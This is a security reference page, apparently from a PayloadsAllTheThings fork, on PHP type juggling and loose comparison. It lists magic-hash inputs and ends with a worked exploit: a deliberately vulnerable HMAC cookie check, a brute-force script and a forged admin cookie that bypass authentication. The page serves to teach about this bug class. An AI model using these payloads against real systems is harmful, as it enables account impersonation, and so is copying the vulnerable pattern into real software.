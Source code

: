 # Type Juggling

> PHP is a loosely typed language, which means it tries to predict the programmer's intent and automatically converts variables to different types whenever it seems necessary. For example, a string containing only numbers can be treated as an integer or a float. However, this automatic conversion (or type juggling) can lead to unexpected results, especially when comparing variables using the '==' operator, which only checks for value equality (loose comparison), not type and value equality (strict comparison).

## Summary

* [Loose Comparison](#loose-comparison)
	* [True statements](#true-statements)
	* [NULL statements](#null-statements)
	* [Loose Comparison](#loose-comparison)
* [Magic Hashes](#magic-hashes)
* [Exploit](#exploit)
* [References](#references)


## Loose Comparison

> PHP type juggling vulnerabilities arise when loose comparison (== or !=) is employed instead of strict comparison (=== or !==) in an area where the attacker can control one of the variables being compared. This vulnerability can result in the application returning an unintended answer to the true or false statement, and can lead to severe authorization and/or authentication bugs.

- **Loose** comparison: using `== or !=` : both variables have "the same value".
- **Strict** comparison: using `=== or !==` : both variables have "the same type and the same value".

### True statements

| Statement                         | Output |
| --------------------------------- |:---------------:|
| `'0010e2'   == '1e3'`             | true |
| `'0xABCdef' == ' 0xABCdef'`       | true (PHP 5.0) / false (PHP 7.0) |
| `'0xABCdef' == '     0xABCdef'`   | true (PHP 5.0) / false (PHP 7.0) |
| `'0x01'     == 1`       		    | true (PHP 5.0) / false (PHP 7.0) |
| `'0x1234Ab' == '1193131'`         | true |
| `'123'  == 123`                   | true |
| `'123a' == 123`                   | true |
| `'abc'  == 0`                     | true |
| `'' == 0 == false == NULL`        | true |
| `'' == 0`                         | true |
| `0  == false `                    | true |
| `false == NULL`                   | true |
| `NULL == ''`                      | true |

> PHP8 won't try to cast string into numbers anymore, thanks to the Saner string to number comparisons RFC, meaning that collision with hashes starting with 0e and the likes are finally a thing of the past! The Consistent type errors for internal functions RFC will prevent things like `0 == strcmp($_GET['username'], $password)` bypasses, since strcmp won't return null and spit a warning any longer, but will throw a proper exception instead. 

![LooseTypeComparison](https://github.com/techanvconsulting/PayloadsAllTheThings/blob/master/Type%20Juggling/Images/table_representing_behavior_of_PHP_with_loose_type_comparisons.png?raw=true)

Loose Type Comparisons occurs in many languages:
* [MariaDB](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Mariadb)
* [MySQL](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Mysql)
* [NodeJS](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/NodeJS)
* [PHP](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/PHP)
* [Perl](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Perl)
* [Postgres](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Postgres)
* [Python](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Python)
* [SQLite](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/SQLite/2.6.0)


### NULL statements

| Function | Statement                  | Output |
| -------- | -------------------------- |:---------------:|
| sha1     | `var_dump(sha1([]));`      | NULL |
| md5      | `var_dump(md5([]));`       | NULL |


## Magic Hashes

>  Magic hashes arise due to a quirk in PHP's type juggling, when comparing string hashes to integers. If a string hash starts with "0e" followed by only numbers, PHP interprets this as scientific notation and the hash is treated as a float in comparison operations. 

| Hash | "Magic" Number / String    | Magic Hash                                    | Found By / Description      |
| ---- | -------------------------- |:---------------------------------------------:| -------------:|
| MD4  | gH0nAdHk                   | 0e096229559581069251163783434175              | [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD4  | IiF+hTai                   | 00e90130237707355082822449868597              | [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD5  | 240610708                  | 0e462097431906509019562988736854              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | QNKCDZO                    | 0e830400451993494058024219903391              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e1137126905               | 0e291659922323405260514745084877              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e215962017                | 0e291242476940776845150308577824              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 129581926211651571912466741651878684928                | 06da5430449f8f6f23dfc1276f722738              | Raw: ?T0D??o#??'or'8.N=? |
| SHA1 | 10932435112                | 0e07766915004133176347055865026311692244      | Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| SHA-224 | 10885164793773          | 0e281250946775200129471613219196999537878926740638594636 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1138075224010833921) |
| SHA-256 | 34250003024812          | 0e46289032038065916139621039085883773413820991920706299695051332 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1148586399207178241) |
| SHA-256 | TyNOQHUS                | 0e66298694359207596086558843543959518835691168370379069085300385 | [@Chick3nman512](https://twitter.com/Chick3nman512/status/1150137800324526083)

```php
<?php
var_dump(md5('240610708') == md5('QNKCDZO')); # bool(true)
var_dump(md5('aabg7XSs')  == md5('aabC9RqS'));
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
?>
```

## Exploit

The vulnerability in the following code lies in the use of a loose comparison (!=) to validate the $cookie['hmac'] against the calculated `$hash`.

```php
function validate_cookie($cookie,$key){
	$hash = hash_hmac('md5', $cookie['username'] . '|' . $cookie['expiration'], $key);
	if($cookie['hmac'] != $hash){ // loose comparison
		return false;
		
	}
	else{
		echo "Well done";
	}
}
```

In this case, if an attacker can control the $cookie['hmac'] value and set it to a string like "0", and somehow manipulate the hash_hmac function to return a hash that starts with "0e" followed only by numbers (which is interpreted as zero), the condition $cookie['hmac'] != $hash would evaluate to false, effectively bypassing the HMAC check.

We have control over 3 elements in the cookie:
- `$username` - username you are targeting, probably "admin"
- `$expiration` - a UNIX timestamp, must be in the future
- `$hmac` - the provided hash, "0"

The exploitation phase is the following:
1. Prepare a malicious cookie: The attacker prepares a cookie with $username set to the user they wish to impersonate (for example, "admin"), `$expiration` set to a future UNIX timestamp, and $hmac set to "0".
2. Brute force the `$expiration` value: The attacker then brute forces different `$expiration` values until the hash_hmac function generates a hash that starts with "0e" and is followed only by numbers. This is a computationally intensive process and might not be feasible depending on the system setup. However, if successful, this step would generate a "zero-like" hash.
	```php
	// docker run -it --rm -v /tmp/test:/usr/src/myapp -w /usr/src/myapp php:8.3.0alpha1-cli-buster php exp.php
	for($i=1424869663; $i < 1835970773; $i++ ){
		$out = hash_hmac('md5', 'admin|'.$i, '');
		if(str_starts_with($out, '0e' )){
			if($out == 0){
				echo "$i - ".$out;
				break;
			}
		}
	}
	?>
	```
3. Update the cookie data with the value from the bruteforce: `1539805986 - 0e772967136366835494939987377058`
	```php
	$cookie = [
		'username' => 'admin',
		'expiration' => 1539805986,
		'hmac' => '0'
	];
	```
4. In this case we assumed the key was a null string : `$key = '';`


## References

* [Writing Exploits For Exotic Bug Classes: PHP Type Juggling By Tyler Borland](http://turbochaos.blogspot.com/2013/08/exploiting-exotic-bugs-php-type-juggling.html)
* [Magic Hashes - WhiteHatSec](https://www.whitehatsec.com/blog/magic-hashes/)
* [PHP Magic Tricks: Type Juggling](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)
* [spaze/hashes - Magic hashes – PHP hash "collisions"](https://github.com/spaze/hashes)
* [(Super) Magic Hashes - Mon 07 October 2019 - myst404 (@myst404_)](https://offsec.almond.consulting/super-magic-hash.html)